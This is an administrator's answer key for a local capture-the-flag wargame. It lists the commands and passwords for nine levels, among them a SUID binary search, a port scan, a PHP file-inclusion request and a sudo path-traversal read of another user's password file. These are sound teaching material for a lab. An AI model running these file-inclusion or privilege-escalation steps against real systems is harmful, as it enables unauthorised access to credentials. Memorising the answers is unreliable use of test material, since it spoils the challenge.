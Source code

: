 # CTF Challenge Solutions

This document contains solutions to all CTF levels for administrators.

## Level 0 (Demo)
- Simply read the README.txt file:
  ```bash
  cat README.txt
  ```
- Password for Level 1: `bacon_pancakes`

## Level 1: Hidden Files
- Find hidden files in the home directory:
  ```bash
  ls -la
  cat .hidden_password
  ```
- Password for Level 2: `turkey_sandwich`

## Level 2: File Permissions and SUID
- Look for files with SUID bit set:
  ```bash
  find / -perm -4000 -user bandit3 2>/dev/null
  /home/bandit2/read_password
  ```
- Run the binary to get the password:
  ```bash
  ./read_password
  ```
- Password for Level 3: `electric_keyboard`

## Level 3: Scheduled Tasks
- Check for scheduled jobs:
  ```bash
  cat /etc/cron.d/bandit3_task
  ```
- Monitor /tmp for the password file:
  ```bash
  watch -n 1 ls -la /tmp
  ```
- Once it appears:
  ```bash
  cat /tmp/password_drop
  ```
- Password for Level 4: `dancing_monkey`

## Level 4: Network Services
- Scan for open ports:
  ```bash
  nmap -p 1-65535 localhost
  ```
- Connect to the service on port 54321:
  ```bash
  nc localhost 54321
  ```
- Password for Level 5: `rubber_chicken`

## Level 5: Binary Analysis
- Analyze the binary to find the secret code:
  ```bash
  strings checker
  ```
- Or use a debugger:
  ```bash
  gdb -q checker
  ```
- Run the binary with the secret code:
  ```bash
  ./checker
  # Enter: open_sesame
  ```
- Password for Level 6: `flying_squirrel`

## Level 6: Web Exploitation
- Exploit the PHP file inclusion vulnerability:
  ```bash
  curl "http://localhost/level6.php?file=/var/www/html/secret/passwd.txt"
  ```
- Password for Level 7: `flying_lemur`

## Level 7: Privilege Escalation
- Check sudo privileges:
  ```bash
  sudo -l
  ```
- Use path traversal to access the password file:
  ```bash
  sudo -u bandit8 /usr/bin/cat /home/bandit7/not_here/../../../home/bandit8/.password
  ```
- Password for Level 8: `underwater_basket`

## Level 8: Steganography and Forensics (Bonus)
- Find the secret message:
  ```bash
  cat /home/bandit8/challenge/secret_message.txt
  cat /home/bandit8/challenge/hint.txt
  ```
- Final master password: `golden_trophy`
